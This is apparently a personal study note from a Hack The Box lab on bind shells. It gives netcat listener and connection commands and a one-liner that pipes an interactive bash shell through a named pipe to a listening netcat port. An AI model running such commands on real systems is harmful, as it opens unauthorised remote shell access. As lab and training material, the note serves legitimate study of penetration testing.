 ```yaml
---
Title: HTB\shells&payloads\BindShells
tags:
  - os/linux
  - os/network- cybersec
source: HTB\shells&payloads\BindShells
---
```


# HTB\shells&payloads\BindShells

> Źródło: `HTB\shells&payloads\BindShells`

With a bind shell, the target system has a listener started and awaits a connection from a pentester's system (attack box).

GNU Netcat practice

1.Target starting Netcat listener:
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)

2.Attack box connecting to the target:
Ovas420@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!

While starting a listener, we can set up a bind shell:
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

And then connect to it:
Ovas420@htb[/htb]$ nc -nv 10.129.41.200 7777

Target@server:~$

**Powiązane:** [[Graph-Home]] [[OS-Linux]] [[OS-Network]]
